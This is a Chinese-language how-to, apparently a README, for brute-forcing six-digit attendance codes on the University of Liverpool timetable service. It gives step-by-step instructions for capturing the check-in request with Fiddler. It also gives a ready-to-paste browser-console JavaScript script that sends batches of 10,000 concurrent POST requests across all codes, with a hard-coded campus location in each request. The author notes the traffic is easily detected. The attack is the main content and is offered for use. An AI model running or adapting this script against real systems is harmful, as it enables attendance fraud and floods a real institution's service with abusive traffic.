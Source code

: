 # UoL - Attendance Code 爆破

<aside>
💡 请谨慎使用

此方法极易被检测到异常流量, 不清楚现在及未来, 管理员是否会针对该方法

</aside>


## 0.1 原理

通过浏览器开发人员控制台, 执行JS爆破

抓包, **模拟请求**

由于涉及到 SSL证书 等操作, 这个方法比写程序容易操作很多, 无论是编写还是执行

## 0.2 可行性

多个线程进行爆破, 经测试, 15min 300000个

1. 据观察, 没有0开头的6位签到码

2. ~~据观察, 连续执行一段时间后, 会触发冷却~~ (标签页休眠导致)

可行性仍有待研究


## 1.1 初始化准备

1. 浏览器
2. 抓包工具 (以 `Fiddler` 为例)

## 1.2 准备数据 (先手动操作一遍, 获取请求信息)



1. 浏览器打开 Timetable
    
    [Sign In](https://timetables.liverpool.ac.uk/)
    
2. 打开 Fiddler
3. 进入timetable, 打开指定课程, 输入一次签到码
4. 切换回 Fiddler, 从左侧列表中的 `Host` 列, 找到 `timetables.liverpoo.ac.uk` 且其对应的  `URL`   列显示为 `/services/register-attendance-student` , 双击该行
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/c0e70c2e-df67-4058-b784-bb332f4e7c0a/Untitled.png)
    

## 1.3 构建脚本数据



1. 选中 Fiddler 左侧行后, 右侧会显示 该数据包相关信息
2. 点击 `raw` 选项卡, 里边最后一行就是数据正文
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/9239a0a9-890c-4a94-9410-f59c8f88b11f/Untitled.png)
    
3. 从里边提取对应字段, 替换下方脚本代码 `body` 对应字段
    
    ``` javascript
    async function sendBatchRequests(start, end, batch) {
      let batchPromises = [];

      for (let i = start; i <= end; i += batch) {
        batchPromises = [];
        for (let j = i; j < i + batch && j <= end; j++) {
          let attCodeInputValue = j.toString().padStart(6, "0");
          batchPromises.push(
            fetch("https://timetables.liverpool.ac.uk/services/register-attendance-student", {
              method: "POST",
              headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              },
              // 请自行修改以下内容
              body: `attCodeInput=${attCodeInputValue}&uniqueId=UNIQUEID&actId=ACTID&attStart=12%2F03%2F2024+12%3A00&attEnd=12%2F03%2F2024+13%3A15&location=53.40998037885158%2C-2.958224235311767`,
            }).then(response => response.json())
            .then(data => console.log(data))
            .catch(error => console.error('Error:', error))
          );
        }

        await Promise.all(batchPromises);
        console.log(`Batch from ${i} to ${Math.min(i + batch - 1, end)} completed.`);
        await new Promise((resolve) => setTimeout(resolve, 1000)); // 间隔时间
      }
    }

    sendBatchRequests(100000, 999999, 10000); // 分割的数量

    ```
    

## 1.4 发送数据


1. 切换回浏览器的Timetable选项卡
2. 按 `F12` 打开开发者控制台
3. 切换到 `console` 选项卡
4. 粘贴你刚刚构建好的脚本, 回车执行

## 2.1 补充
- Edge浏览器记得关闭标签页休眠!